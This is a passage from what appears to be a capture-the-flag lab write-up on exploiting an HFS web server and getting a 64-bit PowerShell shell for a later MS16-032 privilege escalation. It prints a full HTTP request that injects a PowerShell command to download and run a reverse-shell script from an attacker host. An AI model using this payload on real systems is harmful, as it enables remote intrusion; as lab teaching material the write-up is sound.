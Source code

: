 I spent a while trying to get these exploits to work, and where they should work, they just didn’t. Then I remembered the importance of knowing the process architecture for the running PowerShell process.

Just calling `powershell` to activate the shell returns a process that is running as a 32-bit process:

```

PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False

```

That is because the HFS process is likely running as a 32-bit process. This table (stolen from [ss64.com](https://ss64.com/nt/syntax-64bit.html)) shows how the different paths work based on the current session architecture:

![image-20210314142131188](https://0xdfimages.gitlab.io/img/image-20210314142131188.png)

So from within a 32-bit session, calling PowerShell from the `C:\windows\system32` path will give the 32-bit version. Being in a 32-bit session trying to run kernel exploits against a 64-bit OS will fail.

To get a 64-bit shell, I’ll use the full path to PowerShell in the `sysNative` directory:

```

GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: HFS_SID=0.916518518235534
Upgrade-Insecure-Requests: 1

```

The resulting shell is 64-bit:

```

PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True

```

### MS16-032

The exploit-db link above will not work for this kind of scenario, as it will pop a new window on the box, rather than giving me the ability to run a command. Luckily, the folks in the Empire project ported a [version of this script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) to add a command option.
